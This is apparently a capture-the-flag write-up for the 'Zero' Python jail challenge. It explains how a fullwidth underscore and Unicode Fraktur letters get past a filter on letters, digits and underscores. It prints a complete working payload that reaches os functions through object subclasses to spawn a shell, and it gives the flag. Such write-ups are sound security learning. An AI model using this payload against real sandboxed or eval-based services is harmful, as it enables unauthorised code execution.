


# Zero
> Zero letters, zero numbers, zero underscores, zero builtins, and zero hope of escaping

## About the Challenge
We got a server to connect and also a source code (You cand download the source code [here](zero.zip)). This is a classic pyjail chall where we can't use alphabets (a-z), numbers (0-9), and underscore (__)



## How to Solve?
To solve this problem, im using `_＿` to bypass `__` filter (I got this bypass from ByuCTF 2023). To bypass the alphabet and numbers filter, we need to convert our payload to unicode and in this case im using [cursive text generator](https://lingojam.com/CursiveTextGenerator). Here is the final payload I used to spawn a shell

```
(𝔩:=[]._＿𝔠𝔩𝔞𝔰𝔰_＿, 𝔱:=𝔩==𝔩, 𝔩(𝔩._＿𝔟𝔞𝔰𝔢_＿._＿𝔰𝔲𝔟𝔠𝔩𝔞𝔰𝔰𝔢𝔰_＿()[~𝔱*~𝔱*~𝔱*𝔱*~𝔱*~𝔱*~𝔱-~𝔱*~𝔱*~𝔱*~𝔱*~𝔱*𝔱+𝔱*~𝔱*~𝔱*~𝔱*~𝔱+𝔱*~𝔱*~𝔱*~𝔱*~𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱]._＿𝔦𝔫𝔦𝔱_＿._＿𝔤𝔩𝔬𝔟𝔞𝔩𝔰_＿.𝔳𝔞𝔩𝔲𝔢𝔰())[~𝔱*~𝔱*~𝔱*𝔱*~𝔱*~𝔱*~𝔱-~𝔱*~𝔱*~𝔱*~𝔱-𝔱](𝔱._＿𝔡𝔬𝔠_＿[~𝔱*~𝔱*~𝔱*~𝔱+~𝔱*-~𝔱*~𝔱-𝔱:-~𝔱*~𝔱*~𝔱*~𝔱*~𝔱:-~𝔱*~𝔱*~𝔱]))
```

Since we cannot use any number characters, I used the solver from BlueHens CTF 2023 which created a variable called variable `𝔱`



## Flag
```
uoftctf{zero_security_too_apparently_lmao}
```